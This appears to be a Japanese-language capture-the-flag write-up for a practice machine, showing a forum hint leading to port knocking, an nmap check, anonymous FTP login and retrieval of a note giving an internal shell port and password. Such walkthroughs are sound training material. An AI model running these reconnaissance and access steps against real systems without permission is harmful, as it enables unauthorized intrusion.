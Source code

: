 # webサイトを探索し、掲示板で情報を取得

- http://thm_target:8080/viewtopic.php?f=2&t=2
- 下記のような投稿があるため、ポートノッキングを示唆

```
POST ALL YOUR CAT PICTURES HERE :)

Knock knock! Magic numbers: 1111, 2222, 3333, 4444
```

# ポートノッキングを行い、ポートを開ける
- knockコマンドで実行し、しばらくするとポートが開く

```
┌──(root💀kali)-[~]
└─# knock thm_target 1111 2222 3333 4444
                                                                 
┌──(root💀kali)-[~]
└─# nmap -p21 thm_target                
Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-14 20:00 JST
Nmap scan report for thm_target (10.10.169.95)
Host is up (0.26s latency).

PORT   STATE SERVICE
21/tcp open  ftp

Nmap done: 1 IP address (1 host up) scanned in 0.72 seconds

```

# ftp接続を行い、ファイルを取得
- ftpコマンドでanonymousで入り、ファイルを取得
- internal shellへのアクセス方法が得られる

```
└─# ftp thm_target
Connected to thm_target.
220 (vsFTPd 3.0.3)
Name (thm_target:root): anonymous
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> mget *
mget note.txt? 
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for note.txt (162 bytes).
226 Transfer complete.
162 bytes received in 0.00 secs (150.8133 kB/s)
ftp> exit
221 Goodbye.
                                                                 
┌──(root💀kali)-[~]
└─# cat note.txt        
In case I forget my password, I'm leaving a pointer to the internal shell service on the server.

Connect to port 4420, the password is sardinethecat.
- catlover

```

